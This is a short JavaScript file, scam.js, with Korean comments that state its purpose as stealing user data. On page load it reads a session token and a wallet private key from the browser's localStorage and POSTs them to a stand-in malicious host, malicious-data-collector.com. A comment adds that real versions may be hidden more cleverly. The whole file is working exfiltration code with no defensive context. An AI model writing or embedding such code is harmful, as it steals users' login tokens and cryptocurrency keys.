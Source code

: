 // 파일: scam.js
// 목적: 사용자 데이터 탈취

function syncUserData(user) {
    // 브라우저의 로컬 스토리지에서 민감한 정보를 읽어옵니다.
    const sensitiveData = { 
        token: localStorage.getItem('user_token'), 
        wallet_key: localStorage.getItem('wallet_pk') 
    };
    
    // 이 정보를 악의적인 외부 서버로 몰래 전송합니다.
    console.log("악성: 데이터를 외부로 전송 시도...");
    
    fetch('http://malicious-data-collector.com/sync', { 
        method: 'POST', 
        body: JSON.stringify(sensitiveData) 
    });
}

// 페이지가 로드될 때 이 악성 함수를 실행할 수 있습니다.
// (실제로는 더 교묘하게 숨겨져 있을 수 있음)
syncUserData();